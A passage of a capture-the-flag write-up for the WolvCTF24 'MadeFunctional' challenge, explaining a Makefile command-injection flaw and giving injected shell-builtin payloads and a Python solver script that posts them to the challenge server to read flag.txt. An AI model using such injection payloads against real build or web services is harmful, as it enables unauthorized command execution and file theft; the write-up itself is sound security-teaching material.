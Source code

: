 ```python {title="source.py" lineNos=true lineNoStart=1}
{sp.stdout}
<h1>stderr:</h1>
{sp.stderr}
    """

app.run('localhost', 8000)
```

From the source it allows to create a Makefile with a target that executes some code when the target is built and it's a same vuln. The `SHELL` variable in the Makefile is set to `env PATH= /bin/bash`, which means that the `PATH` environment variable is set to an empty string when the shell command is executed. This means that the shell will not be able to find any executables in the `PATH`, so it will only execute commands that are defined in the Makefile itself.

first I simply using:

```
name = "readflag"
code = "< flag.txt"
```

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/WolvCTF24/MadeFunctional/response1.png" width="400">
</div>
<br>

It seems like the command `< flag.txt` was executed, but it didn't produce any output. This is because the `<` operator is used for input redirection, and it needs a command to provide input to.

Unfortunately, we're limited by the fact that we can't use slashes, and most commands are located in directories that require a slash to access (like `/bin` or `/usr/bin`).

However, we can take advantage of the fact that Makefiles allow for multiple lines in the command section if they are separated by semicolons. We can use this feature to first assign the content of the flag file to a variable, and then echo that variable:

```
name = "readflag"
code = "read -r FLAG < flag.txt; echo $$FLAG"
```

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/WolvCTF24/MadeFunctional/response2.png" width="400">
</div>
<br>

Final solver automation:

```python {title="solver.py" lineNos=true lineNoStart=1}
import requests
import re

data = {
    'name': 'readflag',
    'code': 'read -r FLAG < flag.txt; echo $$FLAG'
}

response = requests.post('https://madefunctional-okntin33tq-ul.a.run.app/make', data=data)
flag = re.findall(r'wctf{.*}', response.text)

print(flag)
```

<details><summary>FLAG</summary></details>
